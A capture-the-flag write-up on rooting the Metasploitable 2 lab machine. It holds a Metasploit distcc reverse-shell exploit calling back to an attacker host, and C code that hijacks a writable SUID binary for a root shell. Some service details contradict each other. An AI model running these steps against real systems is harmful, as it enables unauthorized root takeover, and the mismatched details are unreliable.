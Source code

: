 
---

# 🧨 Metasploitable 2 — The Hard Way to Root 🚀👑

**Author:** Tayler Derden  
**Category:** CTF / Exploitation Lab  
**Difficulty:** 🔴 Hard  
**Tags:** `PHP-CGI`, `Nuclei`, `LinPEAS`, `Privilege Escalation`, `SUID Hijacking`, `Linux`

---

## 📘 Description

**While this machine is known for its trivial `vsftpd 2.3.4`(https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb) backdoor, this write-up documents a deliberately chosen, more challenging path to simulate a scenario where common exploits might fail. Instead of taking the easy way, the focus was on deep analysis and exploiting less obvious misconfigurations.**

This challenge is based on the classic **Metasploitable 2** virtual machine.  
The goal: identify vulnerabilities through deep enumeration, gain initial access, and escalate privileges to become **root**.

While there are simpler, well-known paths on this machine, **this write-up documents a deliberate choice to explore less obvious vectors**, simulating a scenario where common exploits might fail. The path involved multiple dead ends, including a patched PHP-CGI vulnerability and a failed PwnKit exploit, ultimately leading to a successful privilege escalation by exploiting a **SUID binary misconfiguration**.

---

## 🔍 Reconnaissance

### Initial Foothold & Deep Scan

Initial enumeration quickly identifies several "low-hanging fruit" vulnerabilities, such as a **backdoored ProFTPD on port 21**. However, choosing the easy path offers little challenge. Instead, the focus was shifted to a more comprehensive analysis of the machine's entire attack surface.

A full vulnerability scan was performed using **Nuclei** to uncover less trivial entry points.

```bash
nuclei -u http://192.168.58.3
```

**Key Results from Nuclei (Ignoring the obvious FTP backdoor):**

| Port | Service     | Finding                                  | Notes                                    |
|------|-------------|------------------------------------------|------------------------------------------|
| 3632 | distcc      | **RCE via CVE-2004-2687**                | **Chosen vector for initial access**     |
| 5432 | PostgreSQL  | Default credentials (postgres:postgres)  | Excellent alternative for access/pillage |
| 6200 | ingreslock | RCE via backdoored service (CVE-2011-2523) | Another solid RCE vector                 |

---

## 🔥 Vulnerability: distcc Command Execution (RCE)

The `distcc` service, a distributed compiler, was running on port 3632 and was vulnerable to **CVE-2004-2687**, allowing unauthenticated remote code execution. This vector was selected for being a more interesting and less common entry point than the FTP backdoor.

- **Metasploit module:** `exploit/unix/misc/distcc_exec`

---

## 💣 Exploitation

### Step 1: Launch Metasploit Exploit

```bash
msf6 > use exploit/unix/misc/distcc_exec
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 192.168.58.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST 192.168.58.1
msf6 exploit(unix/misc/distcc_exec) > set PAYLOAD cmd/unix/reverse_perl
msf6 exploit(unix/misc/distcc_exec) > run
```

🎉 **Result:** Reverse shell obtained as **daemon (UID 1)**.

---

## 🧠 Privilege Escalation

### Step 2: Surgical Enumeration with LinPEAS

A full LinPEAS scan was initially overwhelming. To focus the search, a targeted scan was used to find only misconfigured file permissions.

```bash
# On the victim machine
./linpeas.sh -o interesting_perms_files
```
🔎 This immediately revealed the critical vulnerability:

`You own the SUID file: /usr/bin/at`

This means the `daemon` user has write permissions on a binary that is owned by `root` and has the SUID bit set.

### Step 3: Exploit via SUID Binary Hijacking

The strategy was to replace the legitimate `/usr/bin/at` binary with a custom payload that spawns a root shell.

```bash
# 1. Back up the original binary
mv /usr/bin/at /tmp/at.bak

# 2. Create a C payload to spawn a root shell
echo '#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/sh", "sh", NULL);
    return 0;
}' > /tmp/evil_at.c

# 3. Compile the payload and replace the original binary
gcc /tmp/evil_at.c -o /usr/bin/at

# 4. Restore the SUID bit
chmod +s /usr/bin/at

# 5. Execute the hijacked binary
/usr/bin/at
```
🔥 Boom → A new shell appeared with **root access**.

---

## 🏆 Final Outcome

✔️ Performed deep enumeration with **Nuclei**, bypassing initial dead ends.  
✔️ Exploited **distcc (CVE-2004-2687)** → gained reverse shell as `daemon`.  
✔️ Performed targeted enumeration with **LinPEAS**.  
✔️ Escalated privileges by **hijacking a writable SUID binary (`/usr/bin/at`)**.  
✔️ Achieved **ROOT**!

---

## 🔬 CIA Triad Impact

| Property        | Impact                                                                    |
|-----------------|---------------------------------------------------------------------------|
| Confidentiality | 🔴 Full disclosure of all system data, including `/etc/shadow` and user files. |
| Integrity       | 🔴 Attacker can modify any file, install backdoors, and manipulate logs.    |
| Availability    | 🔴 The system can be fully disabled or destroyed by the attacker.           |

---

## 🛡️ Mitigation

- **Patch Services:** Update or disable vulnerable services like `distcc`.
- **Principle of Least Privilege:** Run services with dedicated, unprivileged users.
- **File Integrity Monitoring:** Use tools like `AIDE` or `Tripwire` to detect unauthorized changes to critical system binaries.
- **SUID/SGID Auditing:** Regularly audit SUID/SGID files and remove permissions where they are not strictly necessary.

---

## 💡 Reflection

This lab was a masterclass in persistence and methodical problem-solving.
- It proved that while simple paths like the **ProFTPD backdoor** exist, a deeper analysis reveals a much richer and more educational attack surface.
- Reinforced the power of **targeted enumeration** over "spray and pray" tactics.
- Showcased a classic, reliable privilege escalation technique that is often more effective than complex kernel exploits.
- The path was not linear; it required adapting to failures and re-evaluating intelligence, which is the essence of a real penetration test.

🔥 This wasn't just about getting root; it was about earning it through analysis, precision, and the deliberate choice of a more challenging path.
